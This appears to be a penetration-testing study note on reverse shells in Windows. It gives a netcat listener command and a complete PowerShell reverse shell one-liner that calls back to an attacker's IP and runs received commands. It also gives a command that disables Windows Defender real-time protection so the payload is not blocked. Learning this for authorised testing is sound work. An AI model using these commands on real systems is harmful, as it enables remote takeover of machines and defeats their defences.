 - In a Reverse Shell, the attacker will have a listener running, and the target will need to initiate the connection.
- There are Helpful tools that infosec veterans have put together to assist.
	-  [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is one fantastic resource that contains a list off different commands, code, and even automated reverse shell generators to get a `reverse shell`.
	- Better to customize the attack a bit in order to carry a penetration test cause as many admins are aware of public repositories and open-source resources.

- ## Simple Reverse Shell in Windows:

	- Simple reverse Shell using some PowerShell code on Windows.
	
		- ### Server:
			- `nc -lvnp <port>`
			- `Listening on 0.0.0.0 <port>`
			
			- Ensure it does not get blocked going outbound through the OS firewall and at the network level.
			
				- A firewall is capable of deep packet inspection and `layer 7` visibility may be able to detect & stop a reverse shell going outbound on a common port because its examining the contents of the network packets, not just the IP address.

				- `Netcat` can be used to initiate the reverse shell on the `Windows Side`
		
		- ###### what applications and shell are hosted on the target ?
			- Initially use command prompt & PowerShell to establish the simple reverse shell.
			
			- ### Client(Target)
			
				- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
				
		- ###### Client(target)
			-  `Windows Defender antivirus` (`AV`) software stopped the execution of the code.
			-  Disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):
			
			- #### Disable AV:
				- `Set-MpPreference -DisableRealtimeMonitoring $true`
		
		- ### Server:
			- `nc -lvnp <port>`



[[Shells]]
